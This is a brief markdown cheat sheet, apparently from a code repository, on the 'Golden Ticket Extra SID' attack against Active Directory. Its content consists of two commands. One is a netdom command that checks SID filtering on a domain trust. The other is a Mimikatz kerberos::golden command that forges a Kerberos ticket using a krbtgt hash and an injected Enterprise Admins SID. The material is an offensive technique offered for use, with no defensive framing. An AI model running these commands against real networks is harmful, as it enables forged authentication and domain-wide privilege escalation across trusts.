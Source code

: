 # Golden Ticket Extra SID
## Check SID Filtering
```
netdom trust example.com /domain:admin.example.com /quarantine
```
## Create Golden Ticket
```
kerberos::golden /user:pwn /domain:example.com /sid:S-1-5-21-2032401531-514583578-4118854891 /krbtgt:7c1865e6e30e54e8845aad091b0ff441 /sids:S-1-5-21-1135011135-3178090508-3111492220-519 /ticket:administrator.kirbi
```
